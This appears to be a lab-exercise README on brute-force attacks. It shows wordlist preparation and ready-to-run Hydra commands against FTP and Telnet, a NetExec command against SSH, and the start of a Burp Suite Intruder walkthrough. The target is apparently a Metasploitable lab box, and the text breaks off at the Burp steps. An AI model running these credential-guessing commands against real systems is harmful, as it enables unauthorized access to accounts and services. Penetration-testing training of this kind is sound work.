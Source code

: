 
# 🔐 Task 2: Brute Force Attacks

## ✅ Preparation

Before conducting brute-force attacks, prepare the following:

- **Username list** (`userlist.txt`)
- **Password list** (`passlist.txt`)

You can either:

- Use common lists available in Kali Linux, such as `/usr/share/wordlists/rockyou.txt`
- Or manually create a small custom list for testing:

```bash
echo -e "admin\nmsfadmin\nanonymous\nuser\ntest" > userlist.txt
echo -e "1234\nmsfadmin\nftp123\nadmin\npassword" > passlist.txt
```

---

## 🔹 2.1 FTP Brute Force with Hydra
Command to attack FTP:
```bash
hydra -L userlist.txt -P passlist.txt ftp://<TARGET_IP> -V
```
![image](https://github.com/user-attachments/assets/464596a3-72a8-4ecc-801d-82f4ed8cc9ae)

## 🔹 2.2 Telnet Brute Force with Hydra
Command to attack Telnet:
```bash
hydra -L userlist.txt -P passlist.txt telnet://<TARGET_IP> -V
```
![image](https://github.com/user-attachments/assets/0d3223f5-d120-408c-ab08-b0b93d67127c)

## 🔹 2.3 SSH Brute Force with NetExec
Command to attack SSH:
```bash
nxc ssh <TARGET_IP> -u userlist.txt -p passlist.txt
```
![Screenshot 2025-04-10 213136](https://github.com/user-attachments/assets/b9a82523-a2a4-4619-8c0e-3434a899d9f1)

## 🔹 2.4 HTTP Login Brute Force Using Burp Suite Intruder

### Step 1: Launch Burp’s Browser
- Open **Burp Suite**.
- Go to `Proxy > Intercept`.
- Ensure **Intercept is ON**.
- Click **Open Browser** to start Burp’s embedded browser.
